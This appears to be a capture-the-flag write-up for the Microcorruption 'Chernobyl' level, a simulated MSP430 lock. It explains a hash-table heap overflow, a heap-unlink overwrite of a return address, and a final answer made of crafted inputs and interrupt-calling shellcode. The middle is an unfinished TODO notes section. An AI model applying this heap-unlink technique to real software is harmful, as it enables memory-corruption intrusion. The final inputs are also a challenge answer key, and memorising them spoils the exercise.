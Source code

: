 # Chernobyl
## TLDR
A hash table on the heap stores user names and pin numbers.  
When the hash table is full (initial max size is 11 entries) it will double in size.  
The program is vulnerable to heap buffer overflow in the hash table.  
A heap unlink exploit is used to overwrite the main function return address during a call to free.  
Shellcode instructions that will call INT on interrupt 0x7f will be executed from the stack.  

## Details
The LockIT Pro d.02  is the first of a new series  of locks. It is
controlled by a  MSP430 microcontroller, and is  the most advanced
MCU-controlled lock available on the  market. The MSP430 is a very
low-power device which allows the LockIT  Pro to run in almost any
environment.

The  LockIT  Pro   contains  a  Bluetooth  chip   allowing  it  to
communiciate with the  LockIT Pro App, allowing the  LockIT Pro to
be inaccessable from the exterior of the building.

LockIT Pro Account Manager solves the problem of sharing passwords
when  multiple users  must  have  access to  a  lock. The  Account
Manager contains  a mapping of users  to PINs, each of  which is 4
digits.  The  system supports  hundreds of users,  each configured
with his or her own PIN,  without degrading the performance of the
manager.

There are no accounts set up  on the LockIT Pro Account Manager by
default. An administrator must first initialize the lock with user
accounts  and  their  PINs.  User  accounts  are  by  default  not
authorized  for access,  but can  be authorized  by attaching  the
Account  Manager  Authorizer.  This  prevents  users  from  adding
themselves to the lock during its use.
    
This is Hardware  Version D.  It contains  the Bluetooth connector
built in, and one available port, to which the LockIT Pro Deadbolt
should be connected. When authorizing PINs, the Deadbolt should be
disconnected and the Authorizer should be attached in its place.

This   is  Software   Revision   02.  It   contains  the   all-new
vault-manager software.

## Program Structure
It is important to understand how this program functions in order to exploit it.

The program uses a hash table to store users and pin numbers. See the link below for an introduction to hash tables.

https://www.hackerearth.com/practice/data-structures/hash-tables/basics-of-hash-tables/tutorial/

The hash table starts at the start of the heap at address 0x5000. It starts out with 8 indexes and each index can store up to 5 entries. Address 0x5006 contains the number of entries. Address 0x5008 contains the number of indexes (2^N). Address 0x500c points to the list of starting addresses of each index. Address 0x500e points to the list of entries in each index. The table will hold 11 entries but once the 12th entry is added, the table expands. This means the number of indexes doubles to 16, The number of entries before expanding will double to 22, all the existing entries are rehashed and added to the new set of indexes, and the previous indexes are freed.

When a new entry is added to an index, the entry point will start at the first unused address in the index. The first 15 bytes of the username will be stored first followed by a null character and then the pin converted to hex. The total size of 1 entry is 18 bytes. The username cannot contain a null byte or space (0x20).

The hash value is calculated using each index of the username. The hash function is pretty easy to predict as the rightmost character has the most influence on the hash, and the hash is modded by the number of indexes. For example, usernames "AAAAA" and "AAAAI" will be put in the same index because `hex("A") % hash table size` is equal to `hex("I") % hash table size`. In short, we only need to adjust the right character by at most 8 (until the hash table resizes) to find the right index.

Looking at the user input handler, only the first character is checked. One option is "a" with size 6 which we know correlates to "access". The other option is "n" with size 3. I assume this means "new" which is a pretty good guess since this option adds an entry to the hash table. When the access command finds a correct user name and pin, we get the response "Access granted; but account not activated."

There is a walk function that doesn't appear to be called. I didn't bother finding out what it does. The get_from_table function works as expected and in depth knowledge is not needed to exploit this program.

Before we move on, make sure everything above makes sense. If anything isn't clear, take the time to fully reverse this program and understand what each function does. Complete knowledge is necessary to craft a working exploit.

## Solution
Now that we know how the program works, we can move onto exploitation. From the explanation above it is clear a heap overflow exists in the hash table. Each index can only store 5 entries but we can add 11 entries before the hash table expands. The heap buffers are contiguous so an overflow of one buffer will overwrite the previous pointer, next pointer, and size of the next heap buffer. See [Addis Ababa](https://github.com/networking101/microcorruption/tree/main/Addis%20Ababa) for an explaination on how the heap is managed.

So we need 6 entries in the same hash table index to overwrite the next allocated buffers pointers and size. It turns out that the same username and pin can be sent if the username is at least 16 characters long. Lets start by overwritting a heap buffer's metadata. Send `new AAAAAAAAAAAAAAAA 0` 6 times.

![prompt](./screenshots/prompt.png)
![memory](./screenshots/memory.png)

It works! All usernames hashed to the same value so they were all placed into the same hash table index. The metadata at 0x509c - 0x50a1 was overwritten with As. Now we need to figure out how to trigger the unlink.

It looks like free is only called when rehash is called and the hash table expands. This means we will need to add 6 more entries to the hash table. We don't want to accidently overwrite more pointers and break execution somewhere later so we will pick 6 usernames that will be placed in different indexes.

```
new B 0
new C 0
new D 0
new E 0
new F 0
new G 0
```

Now rehash should be recalled and we can get to the call to free.

![console](./screenshots/console.png)

Uh oh. We caused the program to abort. It seemed to thing the heap was exhausted. This should only happen when trying to allocate a new block of memory. Let's backtrace and see where the error happened.

The error happended on the first call to malloc in rehash (address 0x490a). It looks like the malloc function will move along the linked list of blocks on the heap to check for unallocated regions large enough to allocate the needed size. If any of the next pointers point to a lower address, the program throws an error. Fortunately the malloc function doesn't check backwards using the previous nodes of the linked list. This is easy to fix. We just need to maintain the integrity of the forward linked list chain. It looks like this value was 0x50fc before we overwrote it. Lets add it to our exploit. The exploit now looks like this:

```
new AAAAAAAAAAAAAAAA 0
new AAAAAAAAAAAAAAAA 0
new AAAAAAAAAAAAAAAA 0
new AAAAAAAAAAAAAAAA 0
new AAAAAAAAAAAAAAAA 0
(hex) 6e657720 4141 fc50 414141414141414141414141 2030
new B 0
new C 0
new D 0
new E 0
new F 0
new G 0
```

TODO pick up here

* available commands are "access" and "new". Anything else will cause run function to return and exit program
* The hash table is stored on the heap
* each block can only hold 5 entries but 10 can be added before the table is expanded
* nulls and spaces (0x20) will be filtered from user input before being moved to heap
* malloc calls in rehash function need to still work. This means forward direction (next node) in linked list must be intact
* free calls will use the previous node to combine free regions of memory. Use this to overwrite return address back to main using buffer sizes
* overwrite return address with stack address when input read from user.
* on next user input after rehash function, store shellcode on stack that will call interrupt 0x7f
* pass in a bad character (not "a" or "n") to return from run function

Meta data for each hash table starts at address  

Address for each table: 0x5016 - 0x5025  
Size for each table: 0x502e - 503d  

8 Entries in the table, each 0x5a (90) bytes long  
Start of each hash table:
* 0x5042
* 0x50a2
* 0x5102
* 0x5162
* 0x51c2
* 0x5222
* 0x5282
* 0x52e2

Check first byte of user input
* 0x61  -  access [your name] [pin]
* 0x6e  -  new [your name] [pin]


## Answer
Input: (ascii) new AAAAAAAAAAAAAAAA 0  
Input: (ascii) new AAAAAAAAAAAAAAAA 0  
Input: (ascii) new AAAAAAAAAAAAAAAA 0  
Input: (ascii) new AAAAAAAAAAAAAAAA 0  
Input: (ascii) new AAAAAAAAAAAAAAAA 0  
Input: (hex) 6e657720 f243 fc50 51f5 31 2030  
Input: (ascii) new B 0  
Input: (ascii) new C 0  
Input: (ascii) new D 0  
Input: (ascii) new E 0  
Input: (ascii) new F 0  
Input: (ascii) new G 0  
Input: (hex) 42424242 324000ffb0121000  
